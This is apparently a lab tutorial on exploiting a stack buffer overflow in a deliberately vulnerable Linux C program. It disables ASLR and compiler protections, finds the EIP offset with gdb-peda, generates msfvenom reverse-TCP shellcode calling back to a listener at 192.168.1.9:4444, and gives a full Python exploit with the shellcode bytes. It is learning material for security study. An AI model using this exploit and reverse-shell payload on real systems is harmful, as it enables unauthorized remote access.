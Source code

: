 # Linux Buffer Overflow Foundation
## 1. What is Buffer Overflow
Exploiting the behavior of a buffer overflow is a well-known security exploit. On many systems, the memory layout of a program, or the system as a whole, is well defined. By sending in data designed to cause a buffer overflow, it is possible to write into areas known to hold executable code and replace it with malicious code, or to selectively overwrite data pertaining to the program's state, therefore causing behavior that was not intended by the original programmer. Buffers are widespread in operating system (OS) code, so it is possible to make attacks that perform privilege escalation and gain unlimited access to the computer's resources. The famed Morris worm in 1988 used this as one of its attack techniques.

![bo_imagination.png](bo_imagination.png)

## 2. Overflowing Program on Linux
### 2.1 Setting up environment
First up, we need to turn off Address Space Layout Randomization (ASLR):

```bash
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Program source code:

```c
#include<stdio.h>
#include<unistd.h>

int overflow(){
  char buffer[500];
  int userinput;
  userinput = read(0, buffer, 700);
  printf("\nUser provided %d bytes. Buffer content: %s", userinput, buffer);
  return 0;
}

int main(int argc, char*argv[]){
  overflow();
  return 0;
}
```

In here, we will use complier `gcc` to compile to code

```sh
$ gcc oversize_overflow.c  -fno-stack-protector -z execstack -o oversize_overflow
```


### 2.2 Overriding EIP
First up, we know the buffer size around 500 bytes or more, let's check how long it will crash and override the `EIP`, so let's try to fuzz the program to crash

Let's make 500 bytes of `A` and send to program to see if it crash

```bash
$ python3 -c "print('A'*500)" | ./oversize_overflow
```

![image1.png](image1.png)

As we can see, the program works good, so let's try with bigger size:

```bash
$ python3 -c "print('A'*700)" | ./oversize_overflow
```

![image2.png](image2.png)

At this time, the program crashed with 700 bytes size. Now on, using the gdb debugger to determine and get exact offset and override the `EIP`:

```bash
$ gdb -q oversize_overflow
```

In my gdb debugger, I've already installed [peda](https://github.com/longld/peda) , so there are many tool you might not see or you can use another tool likewise is ok.
- Creating fuzz buffer to get exact stack size:

```sh
gdb-peda$ pattern create 700 1.txt
Writing pattern of 700 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```

![image3.png](image3.png)

Here is the reuslt, and we can see the `EIP` (`0x4e734138`) point to invalid address, so the program crashed. Now, we are going to get exact size:

```sh
gdb-peda$ pattern offset 0x4e734138
1316176184 found at offset: 516
```

Get back to terminal, create the basic exploit to see if it overrided:

```sh
$ python -c "print('A'*516+'B'*4+'C*100')" > input.txt
```

Run the input file in gdb debugger, we can see the `EIP` overrided with `0x42424242` (meant `BBBB`). We are completely done with overriding the `EIP`.

![image4.png](image4.png)

### 2.3 Execute the Shellcode
#### 2.3.1 Shellcode generation
To generate the shellcode, in this section we will use msfvernom to genterate it

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.1.9 lport=4444 -b "\x00" -f python -o payload.py --platform linux -a x86
```

- Options description:

```sh
-p: Which mean payload
-b: bad characters caused crash
-f: file type
-o: output
-a: architecture
--platform: platform for the payload
lhost: listening host
lport: listening port
```

![image5.png](image5.png)

#### 2.3.2 Finding the returning address to execute the shellcode
We got the shellcode, now we need to find the address to override the `EIP` and point it to the shellcode to make it execute. To do this, we will make `A` buffer and open the `gdb`.

```bash
$ python -c "print('A'*700)" > input.txt

gdb-peda$ r < input.txt
```

After run, the program will be crashed, use `x/20wx $esp-0x230` to show stack similar with below picture.

![image6.png](image6.png)

In the picture, we can see the buffer start in `0xffffd030 + 0x8`, so `0xffffd038` will be our return address

#### 2.3.3 Proof of Concept (PoC)
We will edit the `payload.py` which we've already created above:

```python
#!/usr/bin/python3
import struct

buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\x5d\x29\xc9\xbe\x4d\x2c\x0e"
buf += b"\xe0\xb1\x12\x83\xed\xfc\x31\x75\x13\x03\x38\x3f\xec"
buf += b"\x15\xf3\xe4\x07\x36\xa0\x59\xbb\xd3\x44\xd7\xda\x94"
buf += b"\x2e\x2a\x9c\x46\xf7\x04\xa2\xa5\x87\x2c\xa4\xcc\xef"
buf += b"\x6e\xfe\x2e\xe6\x06\xfd\x30\xe9\x8a\x88\xd0\xb9\x55"
buf += b"\xdb\x43\xea\x2a\xd8\xea\xed\x80\x5f\xbe\x85\x74\x4f"
buf += b"\x4c\x3d\xe1\xa0\x9d\xdf\x98\x37\x02\x4d\x08\xc1\x24"
buf += b"\xc1\xa5\x1c\x26"

with open('input.txt', 'wb') as file:
    offset = 516
    nop = b'\x90'*16
    junk = b'A'
    ret_add = struct.pack('<L', 0xffffd038)
    payload = nop + buf + junk * (offset - 16 -len(buf)) + ret_add
    file.write(payload)
```

After run we have text file `input.txt`

![image7.png](image7.png)

Finally, we got the result, shellcode is connected

![image8.png](image8.png)

![image9.png](image9.png)

------------------------------------------------------- Done -------------------------------------------------------